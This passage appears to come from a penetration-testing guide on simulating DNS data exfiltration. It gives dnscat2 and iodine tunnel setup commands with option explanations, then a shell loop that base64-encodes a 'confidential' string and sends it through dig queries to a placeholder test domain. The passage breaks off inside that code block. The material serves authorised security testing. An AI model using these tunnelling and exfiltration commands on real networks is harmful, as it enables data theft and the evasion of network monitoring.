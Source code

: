 ### 6. DNS Exfiltration Simulation in Penetration Testing

Steps for DNS data exfiltration simulation during security assessments:

1. **Testing tool setup**:
   ```bash
   # DNS tunneling test using dnscat2
   ./dnscat2 --domain yourtestdomain.com --no-cache
   ```
   **dnscat2 main option descriptions**:
   * `--domain yourtestdomain.com`: Specifies the DNS domain to use for testing. This domain should be set up with an authoritative nameserver controlled by the penetration tester
   * `--no-cache`: Disables DNS caching to ensure all queries are actually transmitted over the network
   * Additional useful options:
     * `--dns <server>`: Specifies which DNS server to use
     * `--secret <key>`: Sets a pre-shared key for communication encryption
     * `--delay <ms>`: Sets delay between queries (milliseconds)
     * `--max-retransmits <n>`: Limits maximum number of retransmissions
   
   ```bash
   # Testing with iodine
   ./iodined -f -c -P password 10.0.0.1 test.yourdomain.com
   ```
   **iodine server (iodined) main option descriptions**:
   * `-f`: Run in foreground mode (easier debugging)
   * `-c`: Disable client IP address checking
   * `-P password`: Set password for client authentication
   * `10.0.0.1`: Server IP address within the tunnel (assigned to virtual tunnel interface)
   * `test.yourdomain.com`: DNS domain to use for testing
   * Additional useful options:
     * `-D`: Enable debug messages
     * `-m <mtu>`: Set Maximum Transmission Unit (MTU)
     * `-t <ttl>`: Set TTL value for DNS records
     * `-l <ip>`: Bind to specific IP address

   Client-side iodine setup:
   ```bash
   # iodine client setup
   ./iodine -f -P password test.yourdomain.com
   ```
   **iodine client main options**:
   * `-f`: Run in foreground mode
   * `-P password`: Password for server authentication (must match server)
   * Additional useful options:
     * `-r <ip>`: Specify DNS resolver to use
     * `-d <tun>`: Specify tun device name to use
     * `-T <type>`: Specify DNS record type to use (NULL, TXT, SRV, MX, CNAME, A)
     * `-O <opcode>`: Specify DNS message opcode (QUERY, IQUERY, STATUS)

2. **Test scenarios**:
   * **Testing by data size**:
     ```bash
     # Small data exfiltration test (single record)
     echo "confidential_small" | base64 | tr -d '\n' > /tmp/small.b64
     cat /tmp/small.b64 | while read line; do dig $(echo $line).test.yourdomain.com; done
     